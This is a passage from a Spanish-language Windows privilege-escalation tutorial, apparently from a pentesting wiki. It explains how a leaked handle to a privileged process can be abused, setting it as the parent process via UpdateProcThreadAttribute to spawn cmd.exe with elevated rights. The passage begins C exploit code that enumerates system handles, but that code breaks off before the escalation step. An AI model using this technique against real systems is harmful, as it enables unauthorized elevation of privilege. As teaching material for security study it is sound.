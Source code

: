 {% hint style="info" %}
En un escenario real, probablemente **no podrás controlar el binario** que será ejecutado por el código vulnerable (_C:\users\username\desktop\client.exe_ en este caso). Probablemente **comprometerás un proceso y tendrás que buscar si puedes acceder a algún handle vulnerable de algún proceso privilegiado**.
{% endhint %}

En este ejemplo, **en lugar de abusar del handle abierto para inyectar** y ejecutar un shellcode, se **utilizará el token del proceso con handle privilegiado abierto para crear uno nuevo**. Esto se hace en las líneas del 138 al 148.

Observa cómo se utiliza la **función `UpdateProcThreadAttribute`** con el **atributo `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` y el handle del proceso privilegiado abierto**. Esto significa que el **hilo del proceso creado que ejecuta \_cmd.exe**\_\*\* tendrá el mismo token de privilegio que el proceso con handle abierto\*\*.
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#include "client.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")


HANDLE GetVulnProcHandle(void) {
    
	ULONG handleInfoSize = 0x10000;
    NTSTATUS status;
    PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) malloc(handleInfoSize);
	HANDLE hProc = NULL;
	POBJECT_TYPE_INFORMATION objectTypeInfo;
	PVOID objectNameInfo;
	UNICODE_STRING objectName;
    ULONG returnLength;
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    DWORD dwOwnPID = GetCurrentProcessId();
	
    pNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
    pNtDuplicateObject = GetProcAddress(hNtdll, "NtDuplicateObject");
    pNtQueryObject = GetProcAddress(hNtdll, "NtQueryObject");
    pRtlEqualUnicodeString = GetProcAddress(hNtdll, "RtlEqualUnicodeString");
    pRtlInitUnicodeString = GetProcAddress(hNtdll, "RtlInitUnicodeString");

    printf("[+] Grabbing handles...");

    while ((status = pNtQuerySystemInformation( SystemHandleInformation, phHandleInfo, handleInfoSize,
											NULL )) == STATUS_INFO_LENGTH_MISMATCH)
        phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) realloc(phHandleInfo, handleInfoSize *= 2);

    if (status != STATUS_SUCCESS)
    {
        printf("[!] NtQuerySystemInformation failed!\n");
        return 0;
    }

    printf("done.\n[+] Fetched %d handles.\n", phHandleInfo->NumberOfHandles);

```
